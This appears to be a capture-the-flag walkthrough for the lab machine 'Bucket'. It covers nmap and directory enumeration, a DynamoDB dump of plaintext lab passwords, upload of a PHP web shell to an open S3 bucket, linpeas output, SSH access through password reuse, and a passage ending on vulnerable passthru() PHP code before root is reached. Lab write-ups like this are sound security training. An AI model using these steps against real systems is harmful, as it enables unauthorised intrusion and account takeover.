




## NMAP
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=12/22%OT=22%CT=%CU=44316%PV=Y%DS=2%DC=T%G=N%TM=63A41B6D%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11NW7%O6=M539ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
* * *

## Port 80
Souce code analysis show some juicy informations like

Possible user: support@bucket.htb
S3 buckets: http://s3.bucket.htb/adserver/images/malware.png

No extra subdomains.

WebContent Discovery on main website: nothing

WebContent Discovery on S3 subdomain:
Target: http://s3.bucket.htb/

[10:58:06] Starting:
[10:58:09] 200 -   54B  - /health
[10:58:22] 200 -    0B  - /shell

Surfing to http://s3.bucket.htb/shell we get redirected to http://444af250749d:4566/shell/
So since from bowser we can't get anything and netcat neither i'm thinking this is an address that is open only inside and we need to tunnel it..

Going back we should try to enumerate more s3.bucket.htb/adserver
And try to do some API fuzzing on /health since /shell get's redirected to an internal port so we can't do that much

Target: http://s3.bucket.htb/

[13:50:33] Starting: adserver/
 /adserver/index.html
 
 
Target: http://s3.bucket.htb/

[14:35:16] Starting: shell/
[14:35:23] 200 -    2B  - /shell/images
[14:35:23] 200 -    2B  - /shell/img
[14:35:31] 200 -    2B  - /shell/css
[14:35:36] 200 -    2B  - /shell/lib
[14:35:38] 200 -    2B  - /shell/src

 
* * *
## DynamoDB
Going back to enumeration i got a website by surfing http://s3.bucket.htb/shell/ where basically a / missing was not redirecting me to the right website
which is the Interactive console for a local istance of DynamoDB installed on the machine.

Using the default snippet for list tables i get a table on the DB

using the default snippet for describe table i  get the table structure

Using aws cli we get the data from user table
└─# aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}

Seems like this was a rabbit hole, accounts don't let us ssh into the machine, until we don't have a AWS key we don't need them.
* * *
## AWS S3
Let's go back to the S3 bucket that we found at address s3.bucket.htb and let's see if it's open and we have not only read but also write permisssions.

Let's list all buckets
└─# aws s3 ls --endpoint-url 'http://s3.bucket.htb/'
2022-12-23 12:25:03 adserver

Let's list Adserver bucket's content
└─# aws s3api get-bucket-acl --endpoint-url 'http://s3.bucket.htb/' --bucket adserver
{
    "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
    },
    "Grants": [
        {
            "Grantee": {
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a",
                "Type": "CanonicalUser"
            },
            "Permission": "FULL_CONTROL"
        }
    ]
}

let's upload a php shell on the bucket
└─# aws s3 cp shell.php --endpoint-url 'http://s3.bucket.htb/' s3://adserver
upload: ./shell.php to s3://adserver/shell.php

Let's check result
└─# aws s3 ls --endpoint-url 'http://s3.bucket.htb/' s3://adserver
                           PRE images/
2022-12-23 12:27:03       5344 index.html
2022-12-23 12:27:19       5488 shell.php

Now we curl to get the shell. Pay attention that you should curl only the main site bucket.htb and not s3.bucket.htb since the last one is the URL to the s3 service(IRL it will be xxxx.amazona.xxxxxxx) and the s3 bucket name is "adserver" but it serves as pure storage for the Apache webserver to catch all the config files.
┌──(aleksandar㉿DESKTOP-1KSM320)-[~/Downloads]
└─$ curl http://bucket.htb/shell.php

* * *
## Shell as www-data
So far we are www-data and we can't grab our first flag that is in roy's home directory

 So let's upload our friend linpeas and let's get some ways on how to privesc to roy...
 
 ╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

╔══════════╣ Container related tools present
/usr/bin/docker
/snap/bin/lxc
/usr/sbin/runc
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:44789         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -

╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls
# file: /var/www/bucket-app
USER   root      rwx
user   roy       r-x
GROUP  root      r-x
mask             r-x
other            ---

╔══════════╣ Unexpected in root
/.aws

╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/root/
/var/www
/var/www/html
/var/www/html/index.html
/var/www/bucket-app
╔══════════╣ Files inside others home (limit 20)
/home/roy/.bash_logout
/home/roy/.bashrc
/home/roy/project/db.php
/home/roy/project/vendor/psr/http-message/README.md
/home/roy/project/vendor/psr/http-message/LICENSE
/home/roy/project/vendor/psr/http-message/src/UploadedFileInterface.php
/home/roy/project/vendor/psr/http-message/src/StreamInterface.php
/home/roy/project/vendor/psr/http-message/src/ResponseInterface.php
/home/roy/project/vendor/psr/http-message/src/RequestInterface.php
/home/roy/project/vendor/psr/http-message/src/MessageInterface.php
/home/roy/project/vendor/psr/http-message/src/ServerRequestInterface.php
/home/roy/project/vendor/psr/http-message/src/UriInterface.php
/home/roy/project/vendor/psr/http-message/composer.json
/home/roy/project/vendor/psr/http-message/CHANGELOG.md
/home/roy/project/vendor/psr/http-client/README.md
/home/roy/project/vendor/psr/http-client/LICENSE
/home/roy/project/vendor/psr/http-client/src/ClientExceptionInterface.php
/home/roy/project/vendor/psr/http-client/src/ClientInterface.php
/home/roy/project/vendor/psr/http-client/src/RequestExceptionInterface.php
/home/roy/project/vendor/psr/http-client/src/NetworkExceptionInterface.php
grep: write error: Broken pipe

Tried everithing and seems like nothing gave me improtant stuff, checking some tips from web we know there is password reuse so why not try passwords we got from dynamodb on username roy on SSH?

And boom with third password we got ssh access.. now we can grab flag and continue our journey to root flag.

* * *
## Shell as ROY
Going back on enumeration now as roy we have access to var/www/bucket-app and I think we should foward the port we find in the source code to ourself.. Seems like a WIP page...

<body translate="no" >
  <main>
  <section class="advice">
    <h1 class="advice__title">Site under construction or maintenance </h1>
    
< Bucket Application /> not finished yet

  </section>
  <section class="city-stuff">
    <ul class="skyscrappers__list">

if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

Againg that was not right.. 
Going back to linpeas i see that roy is part of another group
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(roy) gid=1000(roy) groups=1000(roy),1001(sysadm)
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Sep 16  2020 .
drwxr-xr-x 21 root root 4096 Feb 10  2021 ..
drwx--x--x  4 root root 4096 Sep 16  2020 containerd

╔══════════╣ Unexpected in root
/.aws
/home/roy/snap/lxd/19325/.config/lxc/config.yml
/home/roy/.gnupg/pubring.kbx
/home/roy/.gnupg/trustdb.gpg
/home/roy/.aws/config
/home/roy/.aws/credentials

Again nothing but then going back to the tips we know we are supposed to to a port fowarding, so checking back on listening port we find something interesting on port 8000
roy@bucket:~/.aws$ ss -tulpn
Netid                       State                        Recv-Q                       Send-Q                                             Local Address:Port                                              Peer Address:Port                      Process
udp                         UNCONN                       0                            0                                                  127.0.0.53%lo:53                                                     0.0.0.0:*
tcp                         LISTEN                       0                            4096                                                   127.0.0.1:44789                                                  0.0.0.0:*
tcp                         LISTEN                       0                            4096                                               127.0.0.53%lo:53                                                     0.0.0.0:*
tcp                         LISTEN                       0                            4096                                                   127.0.0.1:4566                                                   0.0.0.0:*
tcp                         LISTEN                       0                            128                                                      0.0.0.0:22                                                     0.0.0.0:*
tcp                         LISTEN                       0                            511                                                    127.0.0.1:8000                                                   0.0.0.0:*
tcp                         LISTEN                       0                            511                                                            *:80                                                           *:*
tcp                         LISTEN                       0                            128                                                         [::]:22                                                        [::]:*

Fowarding the port to our machine we can access a WIP website

Let's enumerate it further with Dirsearch
[14:26:58] 301 -  313B  - /files  ->  http://localhost:8000/files/

It's something with that PD4LM to escalate to root
The interesting par here is this code that need to be added as table in DynamoDB
drwxr-x---+ 10 root root   4096 Feb 10  2021 vendor/
roy@bucket:/var/www/bucket-app$ cat index.php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
